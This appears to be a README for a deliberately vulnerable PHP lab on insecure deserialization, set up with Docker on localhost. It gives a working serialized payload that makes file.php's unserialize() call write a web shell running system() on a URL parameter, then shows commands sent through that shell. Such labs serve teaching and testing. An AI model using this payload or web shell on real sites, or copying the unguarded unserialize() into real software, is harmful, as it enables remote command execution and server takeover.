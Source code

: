 # Insecure Deserialization
tl;dr

User locally serializes some data and passes it to our app which uploads a shell.

## Files 

```
file.php
```
Blindly accepts anything and runs unserialize()

```
serialize.php
```
Generates a serialized exploit

## Installing

Git checkout this repo

```
cd into this repo
```

```
docker build -t insecure_deserialize:latest .
```

## Running

```
docker run -d -p 33322:80 insecure_deserialize:latest
```

## Exploting

* First we serialize our payload with serialize.php
```
php serialize.php
```

* We then copy our payload and run it against our vulnerable site
* * If the payload executes the screen will return white
```
http://localhost:33322/file.php?u=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}
```

* We now have a simple cmd shell on our host and can execute away

```
http://localhost:33322/simple_shell.php?cmd=whoami
```
```
http://localhost:33322/simple_shell.php?cmd=ls -la
```

## Thanks

[1]https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
